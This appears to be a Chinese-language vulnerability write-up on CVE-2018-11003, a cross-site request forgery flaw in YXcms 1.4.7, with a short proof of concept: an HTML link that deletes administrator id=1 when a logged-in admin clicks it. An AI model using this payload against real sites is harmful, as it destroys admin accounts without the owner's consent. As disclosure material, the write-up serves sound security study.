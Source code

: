 # （CVE-2018-11003）YXcms 1.4.7 跨站请求伪造漏洞

> 原文：[http://book.iwonder.run/0day/YXcms/1.html](http://book.iwonder.run/0day/YXcms/1.html)

## 一、漏洞简介

YXcms 1.4.7 版本中的 protected/apps/admin/controller/adminController.php 文件存在跨站请求伪造漏洞。远程攻击者可借助 index.php?r=admin/admin/admindel 利用该漏洞删除管理员账户。

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

POC:

管理员点击链接

[http://192.168.232.133/evil.html](http://192.168.232.133/evil.html)

evil.html

```
<html> 
<a href="http://127.0.0.1/yxcms1.4.7/index.php?r=admin/admin/admindel&id=1">test</a>
</html> 
```

